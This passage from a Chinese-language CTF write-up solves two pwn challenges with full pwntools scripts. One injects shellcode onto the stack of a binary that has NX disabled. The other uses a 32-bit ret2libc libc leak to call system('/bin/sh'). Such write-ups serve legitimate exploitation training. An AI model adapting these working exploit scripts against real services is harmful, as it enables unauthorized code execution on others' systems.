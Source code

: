 > 没有开启`NX`

1. 没有开启`NX`考虑往栈上直接写入代码
2. `ida`和动态调试都发现`buf`栈空间为`0x410`足够写入`shellcode`

```python
from pwn import *
context(arch='amd64',log_level='debug')
#io = gdb.debug('./mrctf2020_shellcode','break main')
io = process('./mrctf2020_shellcode')
payload = asm(shellcraft.sh())
io.sendlineafter(b'Show me your magic!\n',payload)
io.interactive()
```

一开始没加`context`那一行报了`EOF`错误,是因为`shellcraft.sh()`默认生成的是`32`位`shellcode`,我们需要给他配置一下环境.

> 参考:[能坑我，但没有完全坑我——mrctf2020_shellcode - Haokunnnnnnnna - 博客园 (cnblogs.com)](https://www.cnblogs.com/p201921420037/p/14646604.html)

# jarvisoj_level4

![image-20240102230647469](../assets/img/old_imgs/image-20240102230647469.png)

- `32`位`libc`泄露
- `ret2libc`

1. 存在漏洞函数`vulnerable_function`变量`buf`存在溢出
2. 常规`32`位泄露`libc`

```python
from pwn import *
io = process('./level4')
#context.log_level = 'debug'
elf = ELF('./level4')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#io = gdb.debug('./level4','break vulnerable_function')
padding = b'A'*(0x88+0x4)
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['vulnerable_function'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.send(payload1)
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload2 = padding + p32(sys_addr) + p32(0) + p32(bin_sh_addr)
io.send(payload2)
io.interactive()
```
